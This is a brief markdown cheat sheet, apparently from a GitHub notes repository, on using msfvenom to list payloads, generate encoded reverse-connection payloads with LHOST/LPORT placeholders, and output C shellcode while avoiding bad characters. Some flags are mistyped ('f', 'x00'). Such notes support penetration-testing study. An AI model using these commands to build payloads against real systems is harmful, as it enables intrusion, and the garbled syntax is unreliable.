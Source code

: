 ```yaml
---
title: Msfvenom
---
```


````bash
msfvenom -l payloads
````

1. <u>Generate Encoded Payload</u>

````bash
msfvenom -p <payload> LHOST=<ip-address> LPORT=<port> -e <encoder-name> -i <iterations> f <file-format> <filename>
````

**<u>Flags</u>**:  
-a : Architecture  
--platform : Supported Platforms  
-o : Output File

2. <u>Generating Shell Code</u>

````bash
msfvenom -p <payload> LHOST=<ip-address> LPORT=<port> -f c
msfvenom -p <payload> LHOST=<ip-address> LPORT=<port> -f c -e <encoder> -b "x00"
````

Bad Characters that can cause the Shell Code to terminate midway (Unsupported Characters) so they need to be encoded  
x86shikata_ga_nai (Popular Encoder)